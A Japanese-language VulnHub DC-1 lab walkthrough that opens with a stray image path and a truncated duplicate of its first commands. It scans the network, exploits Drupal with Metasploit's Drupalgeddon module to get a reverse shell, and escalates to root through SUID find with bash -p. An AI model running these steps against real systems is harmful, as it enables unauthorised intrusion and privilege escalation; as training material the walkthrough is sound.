 # Attack DC-1 Machine

```bash
sudo ifconfig
sudo fping -aqg 192.168.56.0/24
export IP=192.168.56.104# VulnHub: DC-1 Machine Walkthrough

```bash
# ネットワークスキャンとターゲット特定
sudo ifconfig
sudo fping -aqg 192.168.56.0/24
export IP=192.168.56.104
echo $IP

# ポートスキャン
nmap -sC -sV -p 1-65535 $IP

# HTTPアクセス → /robots.txt を確認
export URL="http://$IP:80/"
echo $URL

# droopescan 環境構築
python3 -m venv ~/myenv
source ~/myenv/bin/activate
droopescan --help

# DHCP再取得（ネットワーク不安定時）
sudo dhclient -r
sudo dhclient
ip a

# droopescan インストールと実行
pip install droopescan
droopescan --help
ping $IP
droopescan scan drupal -u $URL

# MetasploitでDrupalの脆弱性を利用
msfconsole
search type:exploit drupal
use exploit/multi/http/drupal_drupageddon
info
set RHOSTS 192.168.56.104
show options
set LHOST 192.168.56.101
show options
# TARGETURIはデフォルトのままでOK
run

# シェル取得後の操作
ls
cat flag1.txt
shell
which python
python -c 'import pty; pty.spawn("/bin/bash")'

tty
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -la --color=auto'
ll

uname -a
cat /etc/*-release
cat /etc/issue

# ユーザーディレクトリ探索
cd /home
ll
cd flag4
ll
cat flag4.txt

# 履歴や一時ファイルの確認
cat .bash_history
cd /tmp
ll
cd /var/tmp
ll
cd /dev/shm
ll
file .tmpfs

# ディスク使用状況確認
df -h

# SUIDファイル探索と特権昇格
cd /
find / -perm -u=s -type f 2> /dev/null
which find
/usr/bin/find . -exec /bin/bash -p \; -quit

# root確認
id
whoami
cd /root
ls
```

---

## Side Notes

### PATHの構成と意味

- `/usr/local/sbin`：ローカルにインストールされたスーパーユーザー向けプログラム
- `/usr/local/bin`：ローカルにインストールされた一般ユーザー向けプログラム
- `/usr/sbin`：システム管理者向けプログラム
- `/usr/bin`：一般ユーザー向け標準コマンド
- `/sbin`：システム管理者用の基本コマンド
- `/bin`：基本的なコマンド（システム起動や操作に必要）
- `/usr/games`：ゲームプログラム
- `/tmp`：一時ファイル用（通常コマンドは置かない）

### `/bin/bash -p` の意味

- `-p`：privileged（特権モード）で起動。環境変数を無視してセキュリティ制限を回避。

### `\;` の意味

- `-exec` の終了を示す。`\;` はシェルによる解釈を避けるためにエスケープ。

### `-quit` の意味

- `find` コマンドを最初の一致で終了させ、効率を向上。

---
